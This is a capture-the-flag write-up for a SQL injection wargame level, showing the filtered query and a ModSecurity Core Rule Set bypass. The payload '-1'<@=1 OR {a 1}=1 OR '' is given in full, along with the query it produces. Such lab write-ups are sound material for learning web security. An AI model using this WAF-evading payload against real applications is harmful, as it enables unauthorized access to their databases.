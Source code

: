 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 33
tags: [SQLi, WAF bypass]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a45d4dce-407b-416d-8625-dd9680076748)

We are provided with the SQL query:

```sql
SELECT id FROM prob_cthulhu WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

&nbsp;

## MOD Security CRS

The MOD Security Core Rule Set, is a set of regex expressions that Web Application Firewalls can use to filter traffic. In this case, out input is being filtered based on this rule set.

In order to bypass this, we can refer [this](https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181) Github issue .

![2](https://github.com/Kunull/Write-ups/assets/110326359/7c4e4729-0eb9-45dd-b350-97556d0cd332)

&nbsp;

If we provide the following URI parameter:

```
?id=-1'<@=1 OR {a 1}=1 OR '
```

The resultant query becomes:

```sql
SELECT id FROM prob_cthulhu WHERE id='-1'<@=1 OR {a 1}=1 OR '' AND pw=''
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/64228788-fb14-4d48-a302-192e1d8a2041)
